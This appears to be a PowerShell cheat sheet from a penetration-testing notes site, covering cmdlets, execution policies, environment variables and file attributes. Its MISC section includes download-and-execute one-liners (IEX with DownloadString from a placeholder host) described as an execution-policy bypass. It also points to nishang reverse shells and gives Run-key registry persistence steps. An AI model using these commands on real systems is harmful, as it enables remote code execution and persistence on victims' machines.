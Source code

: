 # PowerShell

## PowerShell Cmdlets

### The Three Core Cmdlets in PowerShell <a id="the-three-core-cmdlets-in-powershell"></a>

* `Get-Command`
* `Get-Help`
* `Get-Member`

## Check the Version of PowerShell

```text
$PSVersionTable
```

## Script Execution Policy

| Policy | Description |
| :--- | :--- |
| AllSigned | All .ps1 files must be digitally signed. PowerShell prompts the user to determine if files from the signing publisher should be run. |
| Bypass | Bypasses checks for whether files are signed, and internet origin is not verified. |
| Default | The default policies are Restricted \(client systems\) or RemoteSigned \(Server 2016+\) |
| RemoteSigned | All .ps1 files originating from the internet must be digitally signed. PowerShell prompts the user to determine if files from the signing publisher should be run. Allows local scripts and remote scripts if they are signed. |
| Restricted | All .ps1 files are blocked.  |
| Undefined | There is no execution policy set in the current scope. Reverts to Default policy. |

To view current execution policy check use the cmdlet `Get-ExecutionPolicy`.  If no execution policy is set in any scope, the effective execution policy is **Restricted,** which is the default for client systems \(Windows 10\) or **RemoteSigned** \(Server 2016+\). ****The policy can be changed with the cmdlet `Set-ExecutionPolicy <PolicyName>`. 

## Environment Variables

Show all current environment variables in PowerShell: `dir env:` \(in cmd.exe just type `set`\)

You can assign values to Environment Variables without using cmdlet using the following syntax:

```text
$Env:<variable> = "<value>"
```

You can also use the Item cmdlets, such as `Set-Item`, `Remove-Item`, and `Copy-Item` to change the values of environment variables. For example, to use the `Set-Item` cmdlet to append `;C:\Windows\Temp` to the value of the `$Env:PATH` environment variable, use the following syntax:

```text
Set-Item -Path Env:PATH -Value ($Env:Path + ";C:\Windows\Temp")
```

In this command, the value `$Env:Path + ";C:\Windows\Temp"` is enclosed in parentheses so that it is interpreted as a single unit.

### Adding a Folder to PATH

{% tabs %}
{% tab title="Windows" %}
To append `C:\Windows\Temp` to the PATH , use the following syntax \(note the \(`;`\) separator\):

```text
$Env:PATH += ";C:\Windows\Temp"
```
{% endtab %}

{% tab title="Linux/MacOS" %}
On Linux or MacOS, the colon \(`:`\) in the command separates each path in the list.

```text
$Env:PATH += ":/temp"
```
{% endtab %}
{% endtabs %}

## MISC

PowerShell.exe full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Get tons of computer info in PowerShell: `Get-ComputerInfo`

Fully PowerShell version of `wget`. Retrieve file and execute remote code after downloading:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Can also use `wget https://zweilosec.gitbook.io/hackers-rest -OutFile C:\Windows\Temp\out.html` to save the file to the local machine.  `wget` is an alias for `Invoke-WebRequest`. Adding `-Outfile` is needed to save the file to disk.

PowerShell Script Execution Bypass: \[can embed in php too! TODO: write script example of this\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

PowerShell reverse shell and exploit scripts: `nishang` To learn how to use this tool check out Ippsec's video on youtube: [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

add a new key to registry  `New-Item -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name <key_name>` then set its properties with  `New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -PropertyType String -Name <key_name> -Value "<key_value>"`To edit a value that is already set use `Set-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name <key_name> -Value "<new_value>"`

### Change file attributes

This can also be used to change file property flags such as Hidden, Archive, and ReadOnly.

```text
$file = (Get-ChildItem <file>) #can shorten command with gci or ls
$file.attributes #Show the files attributes
Normal

#Flip the bit of the Hidden attribute
$file.attributes = $file.Attributes -bxor ([System.IO.FileAttributes]::Hidden)
$file.attributes
Hidden

#To remove the 'Hidden' attribute
$file.attributes = $file.Attributes -bxor ([System.IO.FileAttributes]::Hidden)
$file.attributes
Normal
```

## Resources

* [http://vcloud-lab.com/Microsoft](http://vcloud-lab.com/Microsoft)
* [http://go.microsoft.com/fwlink/?LinkID=135170](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7)

